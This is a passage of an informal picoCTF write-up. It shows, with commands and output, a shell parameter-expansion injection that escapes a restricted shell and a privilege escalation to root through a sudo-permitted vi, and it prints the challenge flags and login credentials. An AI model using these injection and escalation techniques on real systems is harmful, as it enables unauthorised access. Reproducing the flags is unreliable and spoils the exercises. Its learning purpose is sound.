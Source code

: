 sh: 1: parameter: ls
Special$ ${:ls}
${:ls} 
sh: 1: Bad substitution
Special$ ${parameter=ls}
${parameter=ls} 
blargh
Special$ ${parameter=cd blargh}
${parameter=cd blargh} 
Special$ ${parameter=ls blargj}
${parameter=ls blargj} 
ls: cannot access 'blargj': No such file or directory
Special$ ${parameter=ls blargh}
${parameter=ls blargh} 
flag.txt
Special$ ${parameter=cat blargh/flag.txt}
${parameter=cat blargh/flag.txt} 
picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}

-wow you got the flag: picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794} and Happy Haunting Nepker's.

41. Permissions:
-Launch the instance for challenge
-Then use ssh to get into the server as given below:
ssh picoplayer@saturn.picoctf.net -p 59272
password: yX-YQgX-vS
-I have check the permission for the user with the root privilege and use that command to escalate the privilege to the root user as given below command:
picoplayer@challenge:/etc$ whoami
picoplayer
picoplayer@challenge:/etc$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:/etc$ sudo vi test

root@challenge:/etc# whoami
root
root@challenge:/home/picoplayer# cd /root/
root@challenge:~# ls -al
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   62 Sep 13 13:01 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
root@challenge:~# cat .flag.txt 
picoCTF{uS1ng_v1m_3dit0r_55878b51}
root@challenge:~# 
-wow yo nailed the flag: picoCTF{uS1ng_v1m_3dit0r_55878b51} ,Happy Haunting Nepker's.

